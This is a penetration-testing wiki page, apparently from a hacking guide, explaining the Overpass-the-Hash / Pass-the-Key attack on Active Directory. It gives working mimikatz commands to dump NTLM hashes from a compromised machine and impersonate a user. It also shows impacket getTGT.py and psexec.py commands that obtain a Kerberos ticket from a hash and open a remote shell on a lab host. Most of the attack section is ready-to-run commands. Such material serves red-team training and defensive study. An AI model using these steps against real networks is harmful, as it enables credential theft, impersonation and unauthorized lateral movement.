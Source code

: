 # Overpass the Hash / Pass the Key

This attack aims to **use the user NTLM hash to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

In the case of over-pass-hash, we are generating the things that would get us that original TGT in memory on the windows client then fronting up to the domain controller for a service ticket to the thing we want access to, and automatically getting the TGT back as part of the exchange so that we can go on and request all access we want to other things.

{% hint style="info" %}
In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.
{% endhint %}

## Grab the Target User Hash

In the target machine run this and dump the NTLM hash of the 'target-user' account:

```
Sekurlsa::logonpasswords
```

## Overpass the Hash

Using our new hash, we issue the command:

```
sekurlsa::pth /user:target-user /domain:megabank.local /ntlm:89551acff8895768e489bb3054af94fd
```

#### We should be able to now move from our shell that was running as whomever , to a shell with 'target-user' credentials.

we can use getTGT.py script from impacket toolkit as well:

```
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**. You can also use the ticket with other tools like: as smbexec.py or wmiexec.py
